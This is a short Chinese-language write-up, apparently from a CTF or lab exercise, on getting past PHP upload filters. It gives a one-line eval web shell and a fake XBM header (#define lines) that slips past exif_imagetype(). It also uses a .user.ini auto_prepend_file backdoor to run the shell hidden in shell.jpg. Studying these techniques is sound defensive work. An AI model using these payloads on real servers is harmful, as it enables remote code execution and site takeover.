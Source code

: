 绕过方法如下

第一个可以使用以下一句话木马

```
<scirpt language="php">eval($_REQUEST[a]);</script>
```

第二个利用windows的copy命令合成图片马即可绕过，exif_imagetype()检查文件头

或者在文件最前面加上

```
#define test_height 1000
#define test_width 1000
```

服务器会识别为xbm文件

这里说一下什么是xbm文件

xbm格式，X Bit Map

```
在计算机图形学中，X Window系统使用X BitMap（XBM），一种纯文本二进制图像格式，用于存储X GUI中使用的光标和图标位图
XBM数据由一系列包含单色像素数据的静态无符号字符数组组成。当格式被普遍使用时，XBM通常出现在标题（.h文件）中，每个图像在标题中存储一个数组。以下C代码示例了一个XBM文件：
```

也就是用c代码来标识一个xbm文件，前两个#defines指定位图的高度和宽度（以像素为单位），比如以下xbm文件：

```
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```

所以我们只有在文件中加入头部，就可伪装成图片文件，绕过exif_imagetype()

第三步，怎么也绕不过，看来php文件这条路走不通。

一篇关于.user.ini的文章指明出路

[user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini文件构成的PHP后门.html)

根据文章的思路，我们需要上传.user.ini的文件，文件内容如下

```
#define test_width 16
#define test_height 7

auto_prepend_file=shell.jpg
```

再上传包含一句话木马的shell.jpg

```
#define test_width 16
#define test_height 7

<scirpt language="php">eval($_REQUEST[a]);</script>
```
